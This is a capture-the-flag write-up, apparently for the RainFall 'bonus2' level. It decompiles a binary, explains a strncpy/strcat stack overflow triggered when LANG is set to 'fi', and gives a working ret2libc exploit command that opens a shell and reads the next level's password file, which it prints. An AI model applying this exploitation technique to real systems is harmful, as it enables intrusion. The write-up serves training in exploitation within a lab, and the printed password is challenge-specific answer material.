 ## Step 1: Static & Dynamic Analysis

```c
0804873d  data_804873d:
0804873d                                         66 69 00               fi.
08048740  data_8048740:
08048740  6e 6c 00                                         nl.

08048484    int32_t greetuser()
08048484    {
08048484        uint32_t language_1 = language;
08048492        int32_t str;
08048492        
08048492        if (language_1 == 1)
08048492        {
080484c4            __builtin_memcpy(&str, "\x48\x79\x76\xc3\xa4\xc3\xa4\x20\x70\xc3\xa4\x69\x76\xc3\xa4\xc3\xa4\x20", 18);
080484e4            char var_3a_1 = 0;
08048492        }
08048492        else if (language_1 == 2)
080484f3            __builtin_strcpy(&str, "Goedemiddag! ");
08048497        else if (!language_1)
080484a7            __builtin_strncpy(&str, "Hello ", 7);
080484a7        
08048517        strcat(&str, &name);
08048528        return puts(&str);
08048484    }

08048529    int32_t main(int32_t argc, char** argv, char** envp)
08048529    {
08048529        if (argc != 3)
0804855a            return 1;
0804855a        
0804855a        void buff;
0804855a        __builtin_memset(&buff, 0, 76);
08048564        size_t size = 40;
0804856c        char* arg = argv[1];
08048574        void* tmp = &buff;
08048577        strncpy(tmp, arg, size);
08048584        size_t size2 = 32;
0804858c        arg = argv[2];
08048597        void buff2;
08048597        tmp = &buff2;
0804859a        strncpy(tmp, arg, size2);
0804859f        tmp = "LANG";
080485a6        char* lang_value = getenv(tmp);

080485ba        if (lang_value)
080485ba        {
080485bc            size_t lang_size = 2;
080485c4            arg = &data_804873d;
080485d3            tmp = lang_value;
080485d3            
080485dd            if (memcmp(tmp, arg, lang_size))
080485dd            {
080485eb                size_t var_a8_1 = 2;
080485f3                arg = &data_8048740;
08048602                tmp = lang_value;
08048602                
0804860c                if (!memcmp(tmp, arg, var_a8_1))
0804860e                    language = 2;
080485dd            }
080485dd            else
080485df                language = 1;
080485ba        }
080485ba        
08048629        __builtin_memcpy(&tmp, &buff, 76);
0804862b        return greetuser();
08048529    }
```

### Explanation

The `main()` function takes two arguments and checks for an environment variable named `LANG` to determine a language setting.

The first and second arguments are set into `buff` (`40` bytes max) and `buff2` (`32` bytes max).
The first argument is going to be passed `greetuser()` that will use `strcat()` to concatenate the paramterer to a string on the stack: `"Goedemiddag!"` if `LANG` is set with `nl`, `"Hyvää päivää"` if `LANG` is set with `fi`, or `"Hello"` by default.

```bash
(gdb) x/24wx $esp
0xbffffb70:    0xbffffb80    0xbffffbd0    0x00000001    0x00000000
0xbffffb80:    0x6c6c6548    0x4141206f    0x41414141    0x41414141
0xbffffb90:    0x41414141    0x41414141    0x41414141    0x41414141
0xbffffba0:    0x41414141    0x41414141    0x41414141    0x42424141
0xbffffbb0:    0x42424242    0x42424242    0x42424242    0x42424242
0xbffffbc0:    0x77777777    0x77777777    0x77777777    0x08048600
```

We can see here that `0x41414141` and `0x42424242` are not separated by a null bytes.
This is because `buff` and `buff1` are stored next to each other in the stack, and if an input bigger than `40` bytes is given to the first `strncpy()`, the string won't end with a null bytes.

When the final `strcat()` is called, it will concatenate the `str` and `buff` variables, however because of the lack of null terminated character at the end of `buff`, `buff_1` will also be read by `strcat()`. With the presence of the `18` chars already present in `str` if we are in the `fi` condition, a buffer overflow in `str` will occur and enabling us to overwrite the return address of `greetuser()` and perform a `ret2libc` attack.

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>

(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>

(gdb) info proc map
process 2892
Mapped address spaces:
	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/bonus2/bonus2
	 0x8049000  0x804a000     0x1000        0x0 /home/user/bonus2/bonus2
	0xb7e2b000 0xb7e2c000     0x1000        0x0 
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0 
	0xb7fdb000 0xb7fdd000     0x2000        0x0 
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]

(gdb) find 0xb7e2c000,0xb8000000,"/bin/sh"
0xb7f8cc58
```

## Step 2: Exploiting the Binary

```bash
bonus2@RainFall:~$ export LANG=fi
bonus2@RainFall:~$ ./bonus2 $(python -c "print('A' * 40)") $(python -c "print('B' * 18 + '\xb7\xe6\xb0\x60'[::-1] + '\xb7\xe5\xeb\xe0'[::-1] + '\xb7\xf8\xcc\x58'[::-1])")
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB`�����X���

$  cat /home/user/bonus3/.pass         
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
